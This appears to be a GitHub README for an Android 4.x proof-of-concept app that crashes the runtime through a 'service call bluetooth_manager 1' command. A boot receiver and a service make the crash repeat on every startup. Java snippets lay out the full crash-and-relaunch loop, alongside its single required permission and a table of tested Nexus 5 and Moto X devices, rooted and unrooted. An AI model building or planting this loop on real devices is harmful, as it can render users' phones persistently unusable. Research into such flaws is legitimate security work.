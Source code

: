 android_bt_manager
==================

This Android 4.x application causes the Android runtime to crash Android.io by making a service call to bluetooth_manager. 

**How it works:**
- `MainActivity` sends service call to `IBluetoothManager`: `Runtime.getRuntime().exec("service call bluetooth_manager 1");`
- `BootReceiver`, a `BroadcastReceiver` waits for `ACTION_BOOT_COMPLETED` to start `Crash` service. 

```Java
if (Intent.ACTION_BOOT_COMPLETED.equals(intent.getAction())) {
    Intent serviceIntent = new Intent(context, Crash.class);
    context.startService(serviceIntent);
}
```

- `Crash` service starts the `MainActivity` 

```Java
Intent i = new Intent(this, MainActivity.class);
i.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
startActivity(i);
```

- Repeat. 

**Application Permissions:** 
- `RECEIVE_BOOT_COMPLETED`

**This application has been tested on the following devices:**

|   Device   |   OS   | Rooted | Runtime |
| ---------- |:------:|:------:|:-------:|
| Nexus 5    | 4.4.2  | ✓      | ART     |
| Moto X     | 4.4.3  | x      | ART     |
| Nexus 5    | 4.4.3  | ✓      | ART     |
| Nexus 5    | 4.4.3  | ✓      | ART     |